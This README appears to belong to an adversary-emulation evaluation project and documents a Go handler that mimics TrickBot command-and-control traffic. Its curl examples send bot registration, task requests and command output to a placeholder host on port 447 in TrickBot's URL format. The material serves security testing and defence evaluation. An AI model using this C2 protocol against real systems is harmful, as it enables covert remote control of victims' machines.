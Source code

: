 # ATT&CK Evaluations TrickBot Handler

The ATT&CK Evaluations TrickBot Handler is used to handle communications between the Trickbot Client and control server via a REST API.

The TrickBot Handler provides features to communicate with the Trickbot Client and forwarding control information to the Control Server.

The Trickbot Handler must be run as root because it needs to bind to a standard port.

## Build from source

go build main.go

### Install dependencies

Install Go version 1.15 or higher.

```
sudo apt-get install golang
```

Enter the control server directory, and then run tests. Go should automatically fetch needed dependencies.

```
cd wizard_spider/Resources/handlers/

sudo go test -v ./trickbot
```

Look at the go.mod file if you want to see the dependencies in detail.

### Run Tests

```
cd wizard_spider/Resources/control_server/handlers/trickbot/
sudo go test ./...
```

### Go Build

```
cd wizard_spider/Resources/control_server/
go build main.go
```

### Registration Example

On server:

```
cd wizard_spider/Resources/control_server/
sudo ./main
```

On client or another server shell:

```
 curl {hostip}:447/camp1/DMIN_W617601.HATGSF1265TRQIKSH54367FSGDHUIA11/0/Windows7x64/1234/0.0.0.0/GAVHSGFD12345ATGSHBDSAFSGTAGSBHSGFSDATQ12345AGSFSGBDISHJKAGS2343/C:/1111/2222/HAGSTGST123
```

### Get Task Example

On client or another server shell:

```
curl {hostip}:447/camp1/DMIN_W617601.HATGSF1265TRQIKSH54367FSGDHUIA11/80/HAGSTGST123
```

### Post Task Output Example

On client or another server shell:

```
curl {hostip}:447/camp1/DMIN_W617601.HATGSF1265TRQIKSH54367FSGDHUIA11/10/cmd/messageouput/HAGSTGST123
```
